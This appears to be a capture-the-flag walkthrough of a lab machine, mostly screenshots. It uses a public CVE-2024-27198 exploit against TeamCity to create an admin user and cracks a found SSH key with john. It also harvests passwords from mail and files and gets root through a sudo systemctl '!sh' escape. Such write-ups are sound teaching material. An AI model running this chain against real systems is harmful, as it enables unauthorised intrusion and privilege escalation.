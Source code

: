 ![](../attachment/8aeeb251e8d79e880e12ca468982548c.png)
We can view sourcecode:
![](../attachment/bd606d33a3c3129b2718d1b5fb24bf8b.png)
There is a subdomain:
Adding to hosts and accessing:
![](../attachment/6b3a3159534a079fa3b4795cd99c8088.png)

Using this [exploit](https://github.com/yoryio/CVE-2024-27198):
```
python3 CVE-2024-27198.py -t http://teams.onlyrands.com -u mynewadminuser -p mypassword
```
![](../attachment/1aa784c52a6a7441560e596b800489cb.png)
We are logged in.

We find an id_rsa file in marco's changelogs:
![](../attachment/c4e0ede5c5ee08eb3a223678e8851cef.png)![](../attachment/0efe145c970a17d96db6162a412e141e.png)![](../attachment/af5ae2ed646260cbb4343940fcc011a1.png)
It is asking password so we can use ssh2john:
```
ssh2john id_rsa > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt![](../attachment/22741aa210d8c9606ad2b56d8b6a43c2.png)
We cracked it.

Now we can ssh to marcot:
![](../attachment/5ebc8c505addd3db7a926f044774a9b8.png)
Running linpeas we find mails:
![](../attachment/bc511625ffd8c6d42037017d7be5ad7c.png)

![](../attachment/efda597cd34e1eec997dc8f356216a8b.png)
We can try to give everyone permissions:
```
chmod 777 *
```
![](../attachment/2a46305b600fc4c5582582350dbffb01.png)
we can only access marcot's mails.
![](../attachment/6edffd69349adb18781093907f978ccb.png)
We have a password for matthew

Now we can switch to matthewa user:
![](../attachment/7b42bad8e8a2c2965aee36bb4fb2d067.png)

![](../attachment/98e255bdef261741a6a2a74ce6334689.png)
There is a weird file.

![](../attachment/999daf5ce6dc341551ba3f2778cc8db8.png)
We have password for a user.

In `/etc/passwd`:
![](../attachment/7400bf487e6e1ee2f0b8c079e50c0b08.png)

It's braind user's password.
We are briand:
![](../attachment/d41e9ded0c47b29d2c988ab52f7b53cf.png)

Now we can use gtfobins:
![](../attachment/2e59028201d74fd645d257ae24d9956c.png)

We can get root now:
```
sudo /usr/bin/systemctl status teamcity-server.service
!sh
```
![](../attachment/c882339214ac193192963e54fd10930c.png)

